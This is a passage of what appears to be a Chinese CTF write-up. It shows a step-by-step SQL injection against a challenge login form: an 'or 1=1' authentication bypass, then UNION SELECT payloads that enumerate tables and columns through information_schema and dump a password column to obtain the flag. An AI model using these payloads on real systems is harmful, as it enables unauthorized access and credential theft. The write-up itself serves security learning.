 修改 密码为万能密码：`' or 1=1%23'`

![image-20221229164137711](https://s2.loli.net/2022/12/29/pmHF2fCuV8sYMLR.png)

我们发现登录成功，并且有回显，接着我们查看表中字段数： `' order by 3%23`

![image-20221229164310866](https://s2.loli.net/2022/12/29/2oihmXOAyb83Kj9.png)

发现共有三列，接着判断回显：

![image-20221229164352359](https://s2.loli.net/2022/12/29/Ewty7alUgxfNW39.png)

第2、3列会回显，然后就使用联合查询查询：数据库、表、列、数据：

查询数据库：

```mysql
'+union+select+1,database(),3%23
```

查询表：

```mysql
'+union+select+1,group_concat(table_name),3+from+information_schema.tables+where+table_schema=database()%23
```

![image-20221229164708813](https://s2.loli.net/2022/12/29/V1Q6XIiyhL8tBzv.png)



查询字段：

payload:

```mysql
'+union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_name='l0ve1ysq1'%23
```

![image-20221229164852700](https://s2.loli.net/2022/12/29/xfiAzDyGZOtchVY.png)

查询password字段数据：

```mysql
'+union+select+1,group_concat(password),3+from+l0ve1ysq1%23
```

![image-20221229165023583](https://s2.loli.net/2022/12/29/Lupwj6okeTntV3r.png)

得到flag





## [极客大挑战 2019]Knife

![image-20221229165209196](https://s2.loli.net/2022/12/29/8UHFrzuiySkY1Go.png)
